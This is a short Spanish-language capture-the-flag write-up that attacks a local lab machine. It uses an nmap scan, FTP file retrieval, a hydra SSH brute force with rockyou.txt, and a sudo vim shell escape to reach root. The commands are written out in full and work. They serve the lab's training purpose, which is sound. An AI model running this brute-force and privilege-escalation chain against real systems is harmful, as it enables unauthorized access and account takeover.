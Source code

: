 Fecha: 07/08/2024
Escaneo con nmap:
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

Lo primero que hago es comprobar si alguna de las versiones de los servicios encontrados es vulnerable (no) usando searchsploit 

![](Imágenes/Pasted%20image%2020240807180332.png)

Veo que hay unos ficheros en el ftp, así que me los descargo:

```
ftp ftp://172.17.0.2 
get pendientes.txt
get chat-gonza.txt
```

![](Imágenes/Pasted%20image%2020240807180657.png)

Miro el archivo y veo el nombre "russoski". Con hydra y el diccionario rockyou.txt, busco su contraseña (iloveme)

![](Imágenes/Pasted%20image%2020240807181119.png)

```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Me conecto por ssh, y haciendo `sudo -l` veo que puedo ejecutar /usr/bin/vim con permisos de superusuario. 

![](Imágenes/Pasted%20image%2020240807181720.png)

Busco en gtfobin y veo que haciendo el siguiente comando me convierto en root:

```
sudo vim -c ':!/bin/sh'
```

![](../Fáciles/Imágenes/Pasted%20image%2020240807181815.png)
